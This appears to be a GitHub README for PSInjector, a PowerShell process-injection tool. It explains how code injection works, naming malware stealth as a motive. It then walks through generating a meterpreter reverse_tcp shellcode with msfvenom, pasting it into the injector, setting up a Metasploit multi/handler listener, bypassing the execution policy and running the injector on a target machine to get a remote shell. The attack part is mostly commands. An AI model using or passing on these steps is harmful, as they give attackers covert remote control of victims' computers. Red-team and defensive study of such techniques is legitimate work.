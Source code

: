 # PSInjector
Code injection is a technique where a process can insert a part of or all of its code from its own running process into another target process and get the target process to execute the injected code.


![image](https://user-images.githubusercontent.com/68971838/210256124-30b065df-ff35-4a5a-af9e-6d956c6be52a.png)

Code Injection Motives

Code injection is performed in both user mode and kernel mode. Malware mainly uses code injection for the following reasons.

• Hiding their presence, also known as stealth 

• Process piggybacking 

• Altering functionality of another process or entire OS


Steps for Code Injection
Code injection is largely handled in the following steps.

1. Locate the target for code injection. 

2. Inject the code. 
  
  a. Allocate/create memory/space in the target process of virtual memory. 
  
  b. Write/inject code into the allocated memory/space in the target 

3. Execute the injected code in the target.


This is a script written in PowerShell that injects a payload into another process. The payload is in the form of an array of bytes and is injected into the process with the ID specified by the $procId variable. in our case is notepad.exe

The LookupFunc function is used to get the address of a function in a dynamic-link library (DLL). It takes a DLL name and the name of a function as input and returns the address of the function. The getDelegateType function is used to create a delegate type for a function. A delegate is a type that represents a reference to a method.

The OpenProcess function is used to get a handle to the process with the specified ID. The VirtualAllocEx function is used to allocate memory within the virtual address space of the process. The WriteProcessMemory function is used to write the payload to the memory that was allocated. Finally, the CreateRemoteThread function is used to create a thread that runs in the context of the process and begins execution at the specified memory address.


First we need the shellcode, to create shellcode we will use msfvenom:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1

copy the shellcode and paste it in the injector like so:
![image](https://user-images.githubusercontent.com/68971838/210256780-c6cb4897-9a04-4515-acce-8ae28705aef2.png)


Now set up a listener in the Metasploit Framework (MSF), you first need to start the MSF console:

msfconsole

use multi/handler

set PAYLOAD windows/x64/meterpreter/reverse_tcp 

set LHOST IP

set LPORT PORT


Now run the injector on the target machine:

Note:
If you have a script that you need to run and the execution policy is set to Restricted, you can bypass the execution policy:
Set-ExecutionPolicy Unrestricted

Now run in powershell prompt:
./PSinjector

and check ur listener:

![image](https://user-images.githubusercontent.com/68971838/210256969-2ca9869f-7781-4888-88f4-fe7bb5a8b6bc.png)




